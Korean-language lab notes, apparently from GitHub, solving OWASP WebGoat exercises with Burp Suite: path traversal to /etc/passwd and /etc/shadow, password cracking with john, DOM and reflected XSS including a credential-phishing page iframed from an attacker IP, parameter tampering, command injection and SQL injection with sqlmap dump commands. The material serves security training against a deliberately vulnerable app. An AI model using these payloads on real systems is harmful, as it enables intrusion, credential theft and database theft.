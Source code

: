 
# 1. General
Burp Suite
General 메뉴에서 대기하고 burp에서 인터셉트 하기 위해 새로고침
Cookie : JESSIONID=~
  ~부분 복사하고 인터셉트 off
웹페이지에 붙혀놓고 Go
성공

# 3. Access Control Flaws 
  Bypass a Path Based Access Control Scheme ( 경로 변경 )
Burp Suite
View File 인터셉트 키고 View File클릭
request : File=Phishing.html
  ../../../../../../../../../etc/passwd로 변경
  Congratulations뜨면서 /etc/passwd 확인
  /etc/shadow도 같은방식

칼리에 파일하나 생성 후 /etc/shadow값 복사 붙여넣기
john "파일명"
   root / root

burp에서 했던 방식으로 File에 ../../../../../WEB-INF/spring-security.xml 입력
내용 확인

# 5. AJAX Security
LAB: DOM-Based cross-site scripting
이미지 파일의 경로 : /WebGoat/images/logos/owasp.jpg
`<img src="/WebGoat/images/logos/owasp.jpg">`
  이미지 확인

Submit
Stage 1 Completed

`<img src=x onerror=alert("webgoat")>`
`<img src=x onerror='document.body.innerHTML="<img src=/WebGoat/images/logos/owasp.jpg>"'>`
Submit
Stage 2 Completed

# 7. Authentication Flaws
Multi Level Login 2
Joe / banana
Submit
15161
Submit
정보 확인

Joe / banana
Submit
15161
Burp로 인터셉트
request 값에 hidden_user=Jane으로 변경
성공

# 9. Code Quality
Discover Clues in the HTML
개발자도구 : 계정이 주석처리
admin / adminpw

# 10. Cross-Site Scripting (XSS)
Phishing with XSS
vi pish.html
	`<html>`
	`<body>`
	`<font color=red>User Authontication is Required.</font>`
	`<p>`
	`<form id=hack action=/ method=GET>`
	`USername<br>`
	`<input type=text name=id><br>`
	`Password<br>`
	`<input type=password name=pass><br>`
	`<input type=submit value=Login onclick="document.getElementByid('hack').submit()">`
	`</form>`
	`</body>`
	`</html>`

systemctl start apache2
cp pish.html /var/www/html/
Kali IP/pish.html접속
로그인 페이지

`<script>alert("1")</script>` 입력 후 Search
`<p> <p><iframe frameborder=0 width=400 height=200 src=http://192.168.56.106/pish.html></iframe>`
Search
만들었던 html 페이지
  이렇게 코드를 심어놓고 누군가 로그인창에다가 눈치 못채고 로그인을 하게된다면 로그인 정보가 나에게 넘어옴
  로그인을 시도 했다면 /var/log/access.log에서 기록 확인

# 11. Command Injection

## Command Injection

아무거나 선택 후 Burp로 인터셉트
Request 값에 HelpFile="읽고자 하는 파일"
HelpFile=../../../../../../../../../etc/passwd
HelpFile=CSRF.help%22%26id%26%22 로 변경하고 forward("&id&"를 URL encoding)
CSRF.help가 나오면서 id값이 출력된다
명령을 치려면 URL encoding 필수

## Numeric SQL Injection

아무거나 선택 후 Burp에서 인터셉트
Request 값 Station=101 뒤에 ' 추가 
구문오류
Station=101%20or%201=1

sqlmap도 가능
sqlmap --cookie="JSESSIONID=4E962E5EF183E0CF47B6F402939BF5E0" -u "http://192.168.56.147:8080/WebGoat/attack?Screen=716&menu=1100&station=101&SUBMIT=Go%21" -p station --dbs --dump


## String SQL Injection

Smith입력 
Go 
  db내용 확인
Smith' or 1=1 -- 
  다른 사용자 내용도 확인 가능

sqlmap --cookie "JSESSIONID=4E962E5EF183E0CF47B6F402939BF5E0" -u "/WebGoat/attack?Screen=735&menu=1100&account_name=Smith&SUBMIT=Go%21"  -p account_name --dbs --dump
